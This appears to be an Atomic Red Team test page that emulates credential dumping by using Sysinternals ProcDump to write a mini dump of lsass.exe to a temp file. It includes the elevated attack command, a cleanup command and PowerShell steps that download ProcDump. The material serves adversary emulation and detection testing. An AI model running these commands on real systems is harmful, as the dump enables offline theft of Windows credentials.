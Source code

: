 
<br/>
<br/>

## Atomic Test #9 - Create Mini Dump of LSASS.exe using ProcDump
The memory of lsass.exe is often dumped for offline credential theft attacks. This can be achieved with Sysinternals
ProcDump. This particular method uses -mm to produce a mini dump of lsass.exe

Upon successful execution, you should see the following file created c:\windows\temp\lsass_dump.dmp.

If you see a message saying "procdump.exe is not recognized as an internal or external command", try using the  get-prereq_commands to download and install the ProcDump tool first.

**Supported Platforms:** Windows


**auto_generated_guid:** 7cede33f-0acd-44ef-9774-15511300b24b





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | Path where resulting dump should be placed | path | C:&#92;Windows&#92;Temp&#92;lsass_dump.dmp|
| procdump_exe | Path of Procdump executable | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;procdump.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
"#{procdump_exe}" -accepteula -mm lsass.exe #{output_file}
```

#### Cleanup Commands:
```cmd
del "#{output_file}" >nul 2> nul
```



#### Dependencies:  Run with `powershell`!
##### Description: ProcDump tool from Sysinternals must exist on disk at specified location (#{procdump_exe})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{procdump_exe}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://download.sysinternals.com/files/Procdump.zip" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\Procdump.zip"
Expand-Archive "PathToAtomicsFolder\..\ExternalPayloads\Procdump.zip" "PathToAtomicsFolder\..\ExternalPayloads\Procdump" -Force
New-Item -ItemType Directory (Split-Path "#{procdump_exe}") -Force | Out-Null
Copy-Item "PathToAtomicsFolder\..\ExternalPayloads\Procdump\Procdump.exe" "#{procdump_exe}" -Force
```
